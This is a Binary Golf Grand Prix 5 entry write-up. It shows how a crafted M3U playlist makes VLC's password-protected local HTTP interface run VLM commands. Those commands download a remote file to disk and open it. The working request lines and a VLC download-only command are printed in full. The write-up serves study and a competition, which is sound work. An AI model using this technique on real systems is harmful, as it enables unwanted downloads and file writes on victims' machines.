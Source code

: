 # BGGP5 - A M3U for VLC

aka SSRF'ing VLCs HTTP interface.

Should support Linux and MacOS, do need to leave click off the playlist and
reclick it on macos (something to do with the erros this causes).

## TL;DR

* .m3us as VLC supports them can just be a list of URLs, which VLC will send
  requests to fetch. You don't need "#EXTM3U", VLC doesn't care.
* When opened they will add their contents to the active playlist, with the
  filename being the name that shows up in the playlist.
* VLC has an incredibly insecure http interface, which allows you to just send
  GET requests (with the requirement of HTTP auth) to access its commands.
* The interface lets you use VLM commands, which lets you script VLC to create
  streams.
* It is possible to use run a few VLM commands to download a file via HTTPS to
  disk, and also open this file as well.
* So if you download `https://binary.golf/5/5`, save it as a m3u and open it
  and the contents will be displayed right in the playlist!

## Write up

### From just the command line

To start off, here is a LOLbin usage of VLC to download a file:
```
vlc https://binary.golf/5/5 :demux=dump :demuxdump-file=out.vlc out.vlc
```

(l33t 0d4y, not listed in GTFO bins!)

A few things to note:
* VLC supports accessing HTTP(S) URLs.
* You can use the dump demux [1], that will just write a file with no changes,
  avoiding all media parsing.
* out.vlc will be used as a playlist (.vlc is just an alias for .m3u) and will
  resolve the filename.

### HTTP Interface

#### Enabling

We have to run VLC with some extra flags to enable the http server:
```
vlc -I qt --extraintf http --http-password 5 --http-port 8080 payload.m3u8
```

* Setting the default interface to QT (or macosx on macos)
* Enable the HTTP server, set a password (a requirement) and the port.

We need to set the port as I hit different port numbers on macos and linux.

#### What can we do

Looking at [2], we can see two interesting endpoints:
* `status.xml`
* `vlm_cmd.xml`

With `status.xml`, we can play directly play a file from disk, which will come
in handy.

`vlm_cmd.xml` gives us the ability to run VLM commands, which has a lot of
power.

Both are used by passing the query `?command=blah` where blah is the command you
want to run.
Entirely via GET requests!

### VLM to write to disk

VLM[3] gives you a set of commands to setup streams / otherwise control VLC.

After some experimenting, I found the following VLM commands to write a file
downloaded over HTTP to disk:

```
new c broadcast enabled input https://binary.golf/5/5 option demux=dump option demuxdump-file=.m3u
control c play
```

I did experiment with using stream outputs, but I realised I could just use
`demux=dump` here to write it out.

### Bringing everything together

So, we can then run our vlm commands by putting the following in the file:
```
http://:5@0:8080/requests/vlm_cmd.xml?command=new c broadcast enabled input https://binary.golf/5/5 option demux%3ddump option demuxdump-file%3d.m3u
http://:5@0:8080/requests/vlm_cmd.xml?command=control c playlist
```

`https://:5@0:8080/` does HTTP auth with the password 5, and 0 is an alias for
localhost we can use.
We get to pass our command easily, just needing to manually urlencode `=`.

VLC supports a few basic commands via the URI scheme.

Finally, we can open the BGGP5 file we saved to disk as a m3u, and it'll
display:
```
http://:5@0:8080/requests/status.xml?command=in_play&input=.m3u
```

## References

* [1] https://wiki.videolan.org/Demuxdump/
* [2] https://wiki.videolan.org/VLC_HTTP_requests/
* [3] https://github.com/videolan/vlc/blob/master/doc/vlm.txt
